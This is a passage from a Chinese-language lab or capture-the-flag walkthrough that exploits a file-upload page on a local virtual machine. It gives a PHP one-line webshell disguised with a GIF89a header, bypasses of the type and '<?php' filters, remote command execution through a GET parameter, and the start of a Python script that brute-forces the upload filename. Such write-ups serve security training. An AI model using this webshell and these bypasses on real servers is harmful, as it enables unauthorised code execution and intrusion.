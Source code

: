 浏览器访问 `http://192.168.205.131`，页面显示一个文件上传功能。

![image-20250815205048586](http://7r1UMPHK.github.io/image/20250918191856359.webp)

页面上方的提示信息揭示了文件命名的关键逻辑：`md5(time()·rand(1,1000))`。这意味着服务器端会使用当前的时间戳（`time()`）拼接一个 1 到 1000 的随机数，然后计算其 MD5 值作为文件名。同时，提示说明了上传文件的限制：

*   **文件类型**：仅接受 `gif / jpg / png`。这可以通过伪造文件头（如GIF的`GIF89a`）来绕过。
*   **内容限制**：不可包含 `<?php`。这是一个常见的安全过滤，但通常可以用PHP短标签 `<?=` 来绕过，它等同于 `<?php echo`。

## **2.2 漏洞利用 (方案一：利用信息泄露)**

既然1337端口的调试服务会显示上传路径，我们可以利用这个便利来简化攻击流程。

1. **构造 Webshell**
   创建一个名为 `a.gif` 的文件，内容如下。`GIF89a` 是一个合法的GIF文件头，用于绕过文件类型检查。后面跟着我们的PHP一句话木马。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ cat a.gif 
   GIF89a
   <?= exec($_GET['0']); ?>
   ```

2. **上传文件并获取路径**
   通过网页的上传功能提交 `a.gif` 文件。然后，访问 `http://192.168.205.131:1337`，从 "Aria Internal Service Debug Shell" 的回显中找到我们刚刚上传文件的确切路径和文件名。

   ![image-20250815210122092](http://7r1UMPHK.github.io/image/20250918191854474.webp)

   从上图可知，文件被保存为 `/uploads/15b8eba93ab6ee04b65169451f0d0653.gif`。

3. **执行命令**
   访问该文件URL，并通过GET参数 `0` 传递要执行的命令。

   `http://192.168.205.131/uploads/15b8eba93ab6ee04b65169451f0d0653.gif?0=id`

   ![image-20250815210213956](http://7r1UMPHK.github.io/image/20250918191922105.webp)

   页面成功返回 `id` 命令的执行结果，确认远程命令执行（RCE）漏洞存在。

## **2.3 漏洞利用 (方案二：无信息泄露场景下的暴力破解)**

在无法访问1337端口的情况下，我们需要根据 `md5(time()·rand(1,1000))` 的命名规则来暴力破解文件名。由于服务器时间与本地时间可能存在细微差别，我们将爆破范围扩大到上传时间的前后一秒。

1. **编写爆破脚本**
   使用以下Python脚本，在上传文件后，立即对可能生成的文件名进行多线程爆破。

   ```python
   import hashlib
   import time
   import requests
   import threading
   from queue import Queue
   
   # ===== 配置 =====
   upload_url = "http://192.168.205.131/upload.php"
   base_url = "http://192.168.205.131/uploads/"
   filename = "a.gif"
   threads = 10
   stop_flag = threading.Event()
   queue = Queue()
   
   # ===== 创建并上传文件 =====
   payload_content = b"GIF89a\n<?= exec($_GET['0']); ?>\n"
   with open(filename, "wb") as f:
       f.write(payload_content)
   ```